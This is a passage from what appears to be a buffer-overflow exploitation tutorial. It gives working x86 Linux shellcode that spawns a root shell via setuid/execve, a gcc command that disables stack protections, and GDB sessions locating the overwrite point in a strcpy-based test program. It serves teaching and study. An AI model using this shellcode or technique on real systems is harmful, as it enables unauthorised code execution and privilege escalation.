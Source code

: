 ```
"\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"
```

It is only 32 bytes and executes a shell. 32 bytes is less than the buffer of 64 bytes so we could easily just put the shell into the buffer and overwrite the return address with starting location of the shell. This is where things start to get really tricky. First, the some parts of the stack are protected from execution. We will bypass this by compiling the program with stack execution enabled.

```
gcc -fno-stack-protector -z execstack -o ex6 ex6.c
```

Let's analyze this program using GDB.

```
(gdb) set disassembly-flavor intel
(gdb) file ex6
Reading symbols from /root/Desktop/ex6...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804844c <+0>:		push   ebp
   0x0804844d <+1>:		mov    ebp,esp
   0x0804844f <+3>:		and    esp,0xfffffff0
   0x08048452 <+6>:		sub    esp,0x50
   0x08048455 <+9>:		cmp    DWORD PTR [ebp+0x8],0x2
   0x08048459 <+13>:	je     0x8048467 <main+27>
   0x0804845b <+15>:	mov    DWORD PTR [esp],0x0
   0x08048462 <+22>:	call   0x8048340 <exit@plt>
   0x08048467 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804846a <+30>:	add    eax,0x4
   0x0804846d <+33>:	mov    eax,DWORD PTR [eax]
   0x0804846f <+35>:	mov    DWORD PTR [esp+0x4],eax
   0x08048473 <+39>:	lea    eax,[esp+0x10]
   0x08048477 <+43>:	mov    DWORD PTR [esp],eax
   0x0804847a <+46>:	call   0x8048320 <strcpy@plt>
   0x0804847f <+51>:	leave
   0x08048480 <+52>:	ret
End of assembler dump.
(gdb) break *0x0804847f
Breakpoint 1 at 0x804847f
(gdb) run $(python -c 'print "B"*64')
Starting program: /root/Desktop/ex6 $(python -c 'print "B"*64')

Breakpoint 1, 0x0804847f in main ()
(gdb) x /40x $esp
0xbffff460:	0xbffff470	0xbffff6cc	0xbffff487	0x00000001
0xbffff470:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff480:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff490:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4a0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4b0:	0x08048400	0x00000000	0xbffff538	0xb7e75e66
0xbffff4c0:	0x00000002	0xbffff564	0xbffff570	0xb7fe0860
0xbffff4d0:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff4e0:	0x00000001	0xbffff520	0xb7fefc16	0xb7fffac0
0xbffff4f0:	0xb7fe0b58	0xb7fbeff4	0x00000000	0x00000000
(gdb) break *0x0804844d
Breakpoint 2 at 0x804844d
(gdb) run $(python -c 'print "B"*64')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/Desktop/ex6 $(python -c 'print "B"*64')

Breakpoint 2, 0x0804844d in main ()
```